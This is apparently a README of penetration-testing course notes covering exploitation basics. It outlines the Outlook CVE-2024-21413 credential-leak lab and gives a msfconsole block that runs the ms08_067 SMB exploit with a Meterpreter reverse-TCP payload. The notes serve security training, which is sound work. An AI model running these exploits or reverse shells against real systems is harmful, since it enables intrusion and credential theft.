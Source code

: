# Section 7: Exploitation Basics

## 🧭 Overview

This module introduces you to the core concepts of exploitation — identifying and leveraging vulnerabilities to gain access or control of a target system. You'll start with a real-world CVE attack, then dive deep into the Metasploit framework, one of the most widely used tools in penetration testing.

## 📌 Key Concepts

| Topic                     | Description                                                                 |
|---------------------------|-----------------------------------------------------------------------------|
| CVE-2024-21413            | Exploit Microsoft Outlook Protected View bypass to leak user credentials    |
| Metasploit Framework      | A modular platform for discovering, exploiting, and validating vulnerabilities |
| Exploitation Techniques   | Using payloads and exploits to control systems                             |
| Meterpreter               | In-memory payload used for post-exploitation                               |
| Misconfiguration Exploits | Exploiting poorly secured Windows environments (Blue machine)              |

---

## 🧪 Hands-On Labs & Projects

### 1. 🕵️ Moniker Link (CVE-2024-21413)
Exploit the CVE vulnerability to extract credentials by sending a malicious `.rtf` file and bypassing Outlook’s Protected View.

- Tool: `Responder`, custom RTF file
- Outcome: NTLM hash capture over SMB

### 2. 🛠️ Metasploit Framework

#### 🔹 Metasploit: Introduction
- Learn core components: exploits, payloads, encoders, listeners
- Interface: `msfconsole`

#### 🔹 Metasploit: Exploitation

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
exploit
```

#Screenshot
<img width="1758" height="1100" alt="image" src="https://github.com/user-attachments/assets/7abe0c1e-87f7-470a-9b68-7d0d2c06f42b" />
